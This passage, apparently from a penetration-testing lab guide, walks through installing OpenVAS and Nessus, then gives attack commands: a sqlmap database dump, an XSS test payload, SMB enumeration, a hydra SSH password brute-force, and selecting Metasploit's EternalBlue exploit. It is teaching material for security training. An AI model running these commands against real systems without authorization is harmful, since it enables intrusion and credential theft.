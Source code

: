 ## Lab 2: Vulnerability Assessment

### A. Automated Scanning

1. **OpenVAS Setup dan Scanning**
   ```bash
   # Install OpenVAS
   sudo apt install openvas
   
   # Setup
   sudo gvm-setup
   
   # Start service
   sudo gvm-start
   ```

2. **Nessus Essentials**
   ```bash
   # Download dan install
   curl -O https://www.tenable.com/downloads/nessus/Nessus-10.5.0-debian9_amd64.deb
   sudo dpkg -i Nessus-10.5.0-debian9_amd64.deb
   
   # Start service
   sudo systemctl start nessusd
   ```

### B. Manual Testing

1. **Web Application Testing**
   ```bash
   # SQL Injection
   sqlmap -u "http://target/page.php?id=1" --dbs
   
   # XSS Testing
   <script>alert('XSS')</script>
   ```

2. **Network Service Testing**
   ```bash
   # SMB Enumeration
   enum4linux -a 192.168.1.100
   
   # SSH Testing
   hydra -l admin -P wordlist.txt ssh://192.168.1.100
   ```

## Lab 3: Gaining Access

### A. Metasploit Framework

1. **Basic Usage**
   ```bash
   # Start Metasploit
   msfconsole
   
   # Search exploits
   search type:exploit platform:windows
   
   # Use exploit
   use exploit/windows/smb/ms17_010_eternalblue
   ```
